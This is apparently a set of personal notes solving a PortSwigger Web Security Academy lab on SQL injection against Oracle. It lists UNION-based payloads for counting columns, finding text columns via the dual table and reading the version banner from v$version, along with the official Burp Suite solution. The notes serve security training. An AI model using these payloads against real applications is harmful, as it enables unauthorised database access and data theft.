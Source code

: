 # Lab: SQL injection attack, querying the database type and version on Oracle

[Lab: SQL injection attack, querying the database type and version on Oracle | Web Security Academy](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

![lab-sql-query-database-type-and-version.png](./lab-sql-injection-attack-querying-the-database-type-and-version-on-oracle/lab-sql-query-database-type-and-version.png)

- 💡Hint
    
    On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
    
    There is a built-in table on Oracle called `dual` which you can use for this purpose. For example: `UNION SELECT 'abc' FROM dual`
    
    For more information, see our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).
    

# Common Attack Payload

```sql
'--
```

![screenshot00](./lab-sql-injection-attack-querying-the-database-type-and-version-on-oracle/screenshot00.png)

# Identify the Number of Columns

```sql
'UNION SELECT NULL--
'UNION SELECT NULL,NULL--
'UNION SELECT NULL,NULL,NULL--

'ORDER BY 1--
```

![screenshot01](./lab-sql-injection-attack-querying-the-database-type-and-version-on-oracle/screenshot01.png)

![screenshot02](./lab-sql-injection-attack-querying-the-database-type-and-version-on-oracle/screenshot02.png)

<aside>
💡 There are only 2 columns

</aside>

# Identify a String Data Type

```sql
'UNION SELECT 'a','a' FROM dual--
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```

# Retrieve Database Information with `UNION`

```sql
'UNION SELECT NULL, banner FROM v$version--
```

![screenshot03](./lab-sql-injection-attack-querying-the-database-type-and-version-on-oracle/screenshot03.png)

# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: `'+UNION+SELECT+'abc','def'+FROM+dual--`
3. Use the following payload to display the database version: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

## Community Solutions

Rana Khalil

[SQL Injection - Lab #7 SQL injection attack, querying the database type and version on Oracle](https://youtu.be/s0dFU2dKAKU)

Michael Sommer

[SQL injection attack, querying the database type and version on Oracle (Video solution, Audio)](https://youtu.be/4sg7ur5Yptk)

